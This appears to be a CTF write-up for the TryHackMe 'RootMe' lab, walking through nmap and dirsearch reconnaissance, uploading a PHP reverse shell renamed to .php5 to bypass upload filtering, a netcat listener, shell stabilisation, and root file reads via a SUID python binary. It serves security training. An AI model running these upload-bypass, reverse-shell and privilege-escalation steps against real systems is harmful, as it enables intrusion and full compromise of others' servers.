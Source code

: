 ```yaml
---
layout: post
title:  "RootMe tryhackme room writeup"
date:   2021-02-25 21:03:36 +0530
categories: CTF Writeups
---
```



RootMe tryhackme room writeup

<img src="https://i.imgur.com/Wp8VFx7.png" width="100" height="100">

Author : [R4yan](https://tryhackme.com/p/R4yan)

## TASK 2

1) start a nmap scan 
```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```
the ports open are : 2

2) apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29

3) service on port 22 is ssh

4) start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)

5) the hidden directories : 
```bash
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
```
the hidden directory is /panel/ and the interesting one is uploads

# Task 3
1) download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port
```
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
```
then rename it to bypass file upload restrictions into .php5
```
mv php-reverse-shell.php rev.php5
```
then upload it and start a netcat listener
```
nc -lvnp LPORT
```
and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
and
```
python -c 'import os; os.system("/bin/bash")'
```
now get user.txt
```
cat /var/www/user.txt
THM{********************}
```
# Task 4 priv esc

1) after running

```
find / -user root -perm /4000
```
you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3) get the root flag by simply running

```
python -c 'print(open("/root/root.txt").read())'
THM{********************}
```
